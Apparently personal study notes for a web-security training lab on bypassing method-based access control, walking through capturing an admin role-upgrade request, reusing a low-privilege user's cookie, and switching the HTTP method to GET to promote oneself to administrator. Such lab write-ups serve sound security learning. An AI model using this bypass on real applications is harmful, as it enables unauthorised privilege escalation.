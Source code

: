 ```bash

```

![[Pasted image 20220513205624.png]]

![[Pasted image 20220513205652.png]]

![[Pasted image 20220513210446.png]]

![[Pasted image 20220513210215.png]]

### Method-based access control can be circumvented
```bash

# This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Log in as administrator:admin
Go to: "Admin panel"
Intercept is on
Upgrade the account "carlos"
Send to repeater
Log off and re-log as wiener:peter
Take the cookie for username "wiener" and replace it in the previous request sent to repeater

POST /admin-roles HTTP/1.1

Response:

HTTP/1.1 401 Unauthorized

"Unauthorized"

Change

POST /admin-roles HTTP/1.1

To

POSTX /admin-roles HTTP/1.1

Response:

HTTP/1.1 400 Bad Request

"Missing parameter 'username'"

Right-click the POSTX request and select "Change request method"

Change:

GET /admin-roles?username=carlos&action=upgrade HTTP/1.1

To

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1

```
